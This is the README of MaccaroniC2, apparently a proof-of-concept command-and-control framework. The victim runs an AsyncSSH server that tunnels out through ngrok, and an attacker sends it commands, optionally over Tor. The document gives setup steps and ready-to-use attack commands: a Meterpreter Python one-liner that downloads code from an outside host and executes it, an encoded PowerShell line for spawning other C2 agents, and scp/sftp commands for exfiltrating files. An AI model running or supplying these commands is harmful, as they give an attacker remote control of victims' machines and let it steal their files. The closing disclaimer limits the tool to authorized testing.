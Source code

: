 # MaccaroniC2 - Empowering Command & Control using AsyncSSH

![](https://github.com/CalfCrusher/MaccaroniC2/blob/main/maccaroni.jpg)

**MaccaroniC2** is a *proof-of-concept* **Command and Control framework** that utilizes the powerful `AsyncSSH` Python library which provides an asynchronous client and server implementation of the SSHv2 protocol and use `PyNgrok` wrapper for `ngrok` integration. This tool is inspired for a specific scenario where the victim runs the AsyncSSH server and establishes a tunnel to the outside, ready to receive commands by the attacker.

The attacker leverages the `Ngrok official API` to retrieve the hostname and port of the tunnel to establish a connection. This approach takes advantage of the comprehensive capabilities provided by **AsyncSSH**, including its integrated support for `SFTP` and `SCP`, facilitating secure and efficient file exfiltration and more.

Moreover, the attacker can send and execute system commands using a SOCKS proxy, leveraging the benefits offered, for example, using `TOR` to enhance anonymity.

* *Ngrok free account only allows the usage of one tunnel at a time. With some changes this tool could be perfect for a BOT-like C&C framework to control multiple SSH instances, but you would need to upgrade your plan on the Ngrok website, see https://ngrok.com/pricing*
   
## Setup and Procedure

1) Run `python3 gen_rsa.py` to generate a pair of SSH keys. The newly generated `id_rsa` is used by the attacker to connect to the server running on the victim's machine.

2) Edit the `asyncssh_server.py` file and place the contents of the newly generated `id_rsa.pub` inside the `pub_key` variable. The `asyncssh_server.py` file acts as an SSH server with SFTP and SCP enabled, which will be run by the victim.

3) Create a free account on Ngrok site and take note of the `AUTH` Token.
  
4) Add the `AUTH` token to the `token` variable in `asyncssh_server.py`, this needs to be harcoded inside the `ngrok_tunnel()` function.
  
5) Create a free `API` key on the Ngrok website. Take note of the generated string.

6) Put the `API` key string in the `api_key` variable inside the `async_commander.py` file. This allows us to automatically retrieve the Ngrok domain and port of the active tunnel during automation.

7) Perform the same step for `get_endpoints.py` file. This script retrieves various useful information about active tunnels.

## Send commands to server  

With `async_commander.py` you can send any command to the server. It *automatically* requests the Ngrok tunnel's domain and port activated by the victim using Ngrok official API.
  
Please note also that the `id_rsa` needs to be in the same folder of `async_commander.py`

## Basic Usage

Send command using socks proxy:  
  
`python3 asyncssh_commander.py "ls -la" --proxy socks5h://127.0.0.1:9050`
 
___
  
Send command without using a proxy:

`python3 asyncssh_commander.py "whoami"`
  
___
  
Spawn another C2 agent (Powershell-Empire, Meterpreter, etc):

`python3 asyncssh_commander.py "powershell.exe -e ABJe...dhYte"`

Meterpreter Python Payload

`python3 asyncssh_commander.py "python3 -c \"import sys; import ssl; u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]], fromlist=('urlopen',)); r=u.urlopen('http://100.100.100.100:8080/YnrVekAsVF', context=ssl._create_unverified_context()); exec(r.read());\""` 

___    
  
Get list of active tunnels:
  
`python3 get_endpoints.py`
  
___
  
Generate new RSA key pairs:
  
`python3 gen_rsa.py`
  
## Advanced Usage
 
Using `SFTP` and `SCP` - you don't need a valid username just the correct `id_rsa`

- With proxy:
  
`proxychains sftp -P NGROK_PORT -i id_rsa ddddd@NGROK_HOST`
  
`scp -i id_rsa -o ProxyCommand="nc -x localhost:9050 %h NGROK_PORT" source_file ddddd@NGROK_HOST:destination_path`
  
___  
  
- No proxy:
  
`sftp -P 18499 -i id_rsa ddddd@0.tcp.ngrok.io`
  
`scp -i id_rsa source_file ddddd@0.tcp.ngrok.io:destination_path`
  
___

**DISCLAIMER: This tool is intended for testing and educational purposes only. It should only be used on systems with proper authorization. Any unauthorized or illegal use of this tool is strictly prohibited. The creator of this tool holds no responsibility for any misuse or damage caused by its usage. Please ensure compliance with applicable laws and regulations while utilizing this tool**
  
